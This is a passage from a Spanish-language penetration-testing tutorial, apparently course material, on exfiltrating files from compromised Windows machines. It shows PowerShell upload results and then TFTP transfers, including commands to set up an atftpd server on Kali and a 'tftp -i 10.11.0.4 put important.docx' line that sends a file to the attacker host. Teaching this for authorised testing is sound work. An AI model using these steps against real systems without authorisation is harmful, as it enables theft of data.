 Después de la ejecución del comando powershell , podemos verificar la transferencia exitosa del archivo:

```
kali@kali:/var/www/uploads$ ls -la
total 360
drwxr-xr-x 2 www-data www-data   4096 Feb  2 00:38 .
drwxr-xr-x 4 root     root       4096 Feb  2 00:33 ..
-rw-r--r-- 1 www-data www-data 359250 Feb  2 00:38 important.docx
```

<br />

#### 2.5. Uploading files with TFTP.

Si bien los métodos de transferencia de archivos basados ​​en Windows que se muestran arriba funcionan en todas las versiones de Windows desde Windows 7 y Windows Server 2008 R2, es posible que tengamos problemas al encontrar sistemas operativos más antiguos. PowerShell, aunque es muy potente y se usa con frecuencia, no está instalado de forma predeterminada en sistemas operativos como Windows XP y Windows Server 2003, que todavía se encuentran en algunas redes de producción. Si bien tanto VBScript como el cliente FTP están presentes y funcionarán, en esta sección analizaremos otro método de transferencia de archivos que puede ser efectivo en el campo.

TFTP es un protocolo de transferencia de archivos basado en UDP y, a menudo, está restringido por las reglas del firewall de salida corporativo.

Durante una prueba de penetración, podemos usar TFTP para transferir archivos desde sistemas operativos Windows más antiguos hasta Windows XP y 2003. Esta es una excelente herramienta para la transferencia de archivos no interactiva, pero no está instalada de forma predeterminada en los sistemas que ejecutan Windows 7, Windows 2008 y posteriores.

Por estas razones, TFTP no es un protocolo de transferencia de archivos ideal para la mayoría de las situaciones, pero en las circunstancias adecuadas, tiene sus ventajas.

Antes de aprender a transferir archivos con TFTP, primero debemos instalar y configurar un servidor TFTP en Kali y crear un directorio para almacenar y servir archivos. A continuación, actualizamos la propiedad del directorio para que podamos escribir archivos en él. Ejecutaremos atftpd como un demonio en el puerto UDP 69 y lo dirigiremos para usar el directorio /tftp recién creado:

```
kali@kali:~$ sudo apt update && sudo apt install atftp
kali@kali:~$ sudo mkdir /tftp
kali@kali:~$ sudo chown nobody: /tftp
kali@kali:~$ sudo atftpd --daemon --port 69 /tftp
```

En el sistema Windows, ejecutaremos el cliente tftp con -i para especificar una transferencia de imagen binaria, la dirección IP de nuestro sistema Kali, el comando put para iniciar una carga y, finalmente, el nombre del archivo que se cargará.

El comando final es similar al que se muestra a continuación en el Listado 33:

```
C:\Users\Offsec> tftp -i 10.11.0.4 put important.docx
Transfer successful: 359250 bytes in 96 second(s), 3712 bytes/s
```

<br />
